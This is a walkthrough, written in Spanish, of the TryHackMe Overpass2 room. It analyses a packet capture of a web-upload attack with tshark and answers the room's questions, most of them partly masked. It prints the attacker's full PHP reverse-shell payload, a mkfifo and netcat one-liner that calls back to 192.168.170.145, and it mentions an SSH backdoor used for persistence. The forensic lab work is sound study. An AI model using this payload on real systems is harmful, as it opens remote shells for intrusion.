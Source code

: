 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

```
tshark -r overpass2.pcapng -T fields -e ip.dst | sort | uniq -c
```

```
   1463 140.82.118.4
      2 192.168.170.138
    262 192.168.170.145
   2113 192.168.170.159
      2 192.168.170.2
      1 192.168.170.254
      3 224.0.0.22
      4 224.0.0.251
     14 239.255.255.250
      1 91.189.91.157
```

```
# tshark -r overpass2.pcapng -Y "http"

4 0.000326676 192.168.170.145 → 192.168.170.159 HTTP 484 GET /development/ HTTP/1.1 
    6 0.000860947 192.168.170.159 → 192.168.170.145 HTTP 1078 HTTP/1.1 200 OK  (text/html)
   14 7.915992166 192.168.170.145 → 192.168.170.159 HTTP 1026 POST /development/upload.php HTTP/1.1  (application/x-php)
   16 7.916964256 192.168.170.159 → 192.168.170.145 HTTP 309 HTTP/1.1 200 OK  (text/html)
   18 11.984825193 192.168.170.145 → 192.168.170.159 HTTP 401 GET /development/uploads/ HTTP/1.1 
   19 11.985407246 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
   27 28.574178738 192.168.170.145 → 192.168.170.159 HTTP 466 GET /development/uploads/payload.php HTTP/1.1 
 3562 229.072082387 192.168.170.159 → 192.168.170.145 HTTP 224 GET /cooctus.png HTTP/1.1 
 3585 229.073323788 192.168.170.145 → 192.168.170.159 HTTP 15280 [TCP Spurious Retransmission] HTTP/1.0 200 OK  (PNG)
 3611 235.053124579 192.168.170.159 → 192.168.170.145 HTTP 223 GET /index.html HTTP/1.1 
 3619 235.053836457 192.168.170.145 → 192.168.170.159 HTTP 881 HTTP/1.0 200 OK  (text/html)
 3876 284.434399160 192.168.170.145 → 192.168.170.159 HTTP 472 GET / HTTP/1.1 
 3878 284.434823231 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
 3880 284.443819303 192.168.170.145 → 192.168.170.159 HTTP 347 GET /cooctus.png HTTP/1.1 
 3890 284.444614924 192.168.170.159 → 192.168.170.145 HTTP 14119 HTTP/1.1 200 OK  (PNG)
```

```
# tshark -r overpass2.pcapng --export-object http,/home/kali/Documents/tryhackme/overpass2/exported/
# cd exported
# ls

 %2f  'cooctus(1).png'   cooctus.png   development   index.html  'upload(1).php'   upload.php   uploads
```





### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```




